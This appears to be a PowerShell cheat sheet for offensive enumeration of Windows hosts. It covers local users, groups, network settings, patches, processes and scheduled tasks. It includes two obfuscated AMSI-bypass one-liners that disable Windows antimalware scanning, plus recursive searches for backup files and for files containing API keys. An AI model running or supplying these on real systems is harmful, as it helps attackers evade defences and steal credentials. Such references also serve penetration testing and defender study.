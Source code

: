 # Powershell

## Security Features

### Language Mode

```powershell
$ExecutionContext.SessionState.LanguageMode
```

### AppLocker Policy

```powershell
Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections
```

### AMSI Bypasses

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Users

### Show Local Users

```powershell
Get-LocalUser
```

### Show Number of Local Users

```powershell
Get-LocalUser | Measure-Object -line
```

### Get User by providing SID

```powershell
Get-LocalUser -SID "S-1-5-21-1394777289-3961777894-1791813945-501"
```

### Show Usernames and SIDs

```powershell
Get-LocalUser | Select-Object -Property Name,SID,Enabled
```

### Show Users that Do not Require a Password

```powershell
Get-LocalUser | Where-Object -Property PasswordRequired -Eq $False
```

## Groups

### Show Local Groups

```powershell
Get-LocalGroup
```

### Show Number of Local Groups

```powershell
Get-LocalGroup | Measure-Object -line
```

## Networks

### Get Network Adapter and IP Address Information

```powershell
Get-NetIPAddress
```

### Show only IPv4 Addresses and Show Output in Table Format

```powershell
Get-NetIPAddress -AddressFamily IPv4 | Format-Table
Get-NetIPAddress -AddressFamily IPv4 | ft
```

### Show Listening Ports

```powershell
Get-NetTCPConnection -State Listen
```

## Computers & Files

### Show Installed Patches

```powershell
Get-HotFix
```

### Show Information about Specific Patch

```powershell
Get-HotFix -ID KB4023834
```

### Search for Backup Files

```powershell
Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue -Force
gci -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue -Force
ls -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue -Force
```

### Search for Files Containing Specific String

```powershell
Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
```

### Get Running Processes

```powershell
Get-Process
```

### Get All Scheduled Tasks

```powershell
Get-ScheduledTask
```

### Get Information about Specific Scheduled Task

```powershell
Get-ScheduledTask -TaskName "new-sched-task"
```

### Show Owner of File/Folder

```powershell
Get-ACL C:\
```
